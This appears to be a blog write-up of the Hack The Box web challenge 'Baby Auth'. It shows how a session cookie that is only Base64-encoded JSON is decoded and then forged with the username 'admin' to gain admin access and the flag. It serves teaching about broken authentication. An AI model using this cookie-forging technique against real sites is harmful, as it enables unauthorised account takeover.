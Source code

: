 ```yaml
---
title: "HTB: Baby Auth"
#last_modified_at: 2021-11-09T14:19:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
  - Broken Authentication
---
```


# Quick Summary
A easy challenge that deals with `Broken Authentication` and involves `Cookie Tampering`.

## Description
> Who needs session integrity these days?

# Enumeration
Visiting the website shows a member login screen:
![Website startpage](/assets/htb/baby_auth/website.png)

Trying default credentials of `admin`:`admin` redirects to `/auth/login` and the following message:
![Invalid username or password](/assets/htb/baby_auth/invalid_login.png)

There's a link to `/register` at the bottom of the page to create a new account:
![Create new account](/assets/htb/baby_auth/create_account.png)

Creating the account with `eplots`:`password1` and then logging in shows the following message:
![Not admin](/assets/htb/baby_auth/not_admin.png)

Looking at the cookie it's `Base64` encoded:
![PHPSESSID](/assets/htb/baby_auth/phpsessid.png)

Decoding the cookie shows the username:

```bash
$ echo 'eyJ1c2VybmFtZSI6ImVwbG90cyJ9' | base64 -d
{"username":"eplots"}
```

# Exploit

```bash
$ echo '{"username":"admin"}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIn0=
```

Changing the cookie to the new one and refreshing the page gets the flag:
![Changed cookie](/assets/htb/baby_auth/changed_cookie.png)

# Pwned confirmation
![Pwned confirmation](/assets/htb/baby_auth/baby_auth_pwned.png)
